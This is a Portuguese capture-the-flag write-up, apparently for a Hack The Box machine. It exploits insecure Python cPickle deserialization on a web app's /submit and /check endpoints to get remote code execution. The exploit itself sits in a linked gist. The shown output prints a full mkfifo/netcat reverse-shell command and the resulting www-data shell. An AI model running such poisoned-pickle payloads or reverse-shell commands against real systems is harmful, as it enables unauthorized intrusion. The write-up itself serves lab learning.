 Outras informações úteis foi descobrir que o site usa um servidor couchdb, o nome do banco e tal. Coisas que podiam ser úteis num futuro.

Fui pesquisar sobre o tal cPickle e descobri que o mesmo é usado para serializar and de-serializar objetos em python. Isso costuma ser perigoso quando é feito com objetos que o usuário controla. [A própria página](https://docs.python.org/2/library/pickle.html) alerta:

```
Warning

The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.
```

Não vou dar uma aula sobre de-serialização e essas porra porque não sou capaz, vale uma pesquisa sua no google para entender melhor.

Então, pesquisando "cPickle exploit" no google encontramos formas de explorar o mal uso desse módulo e um [esqueleto de exploit] (https://gist.github.com/0xBADCA7/f4c700fcbb5fb8785c14).

Desse esqueleto criei o exploit para o site. É um script bem mal feito mas que dá conta do recado.

<script src="https://gist.github.com/brerodrigues/7e195b28078a80d6db98fe130686210f.js"></script>

É alto explicativo, mas para os senhores que não se alto explicaram, aqui vai um resumo breve: crio um pickle venenoso contendo o comando para jogar uma shell reversa para meu ip, desse pickle venenoso monto a requisição para o /submit do site, que vai receber de boas e criar o arquivo. Como sabemos que é criado um md5 do nome do personagem + citação para ser usado como identificador, se cria uma string md5 com com os mesmos valores e se usa essa string para fazer a requisição para /check e ler nosso pickle venenoso e executar o comando.

Isso foi bem menos resumido do que imaginei, mas é isso aí.

Foi só deixar o netcat ouvindo e rodar o exploit para obter uma shell reversa.

```
└──╼ $nc -l -vv -p 1337
listening on [any] 1337 ...
```

E em outro terminal:

```
└──╼ $python expl.py
To run rm /tmp/not_malicious;mkfifo /tmp/not_malicious;cat /tmp/not_malicious|/bin/sh -i 2>&1|nc 10.10.14.120 1337 >/tmp/not_malicious && bart
Exploit (probably) crafted in /tmp/8c1649e6060aa1d0e9a3b08c799d0dda.p
And if nothing is wrong, you have a reverse shell!
```

Dito e feito:

```
└──╼ $nc -l -vv -p 1337
listening on [any] 1337 ...
10.10.10.70: inverse host lookup failed: Unknown host
connect to [10.10.14.120] from (UNKNOWN) [10.10.10.70] 47318
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
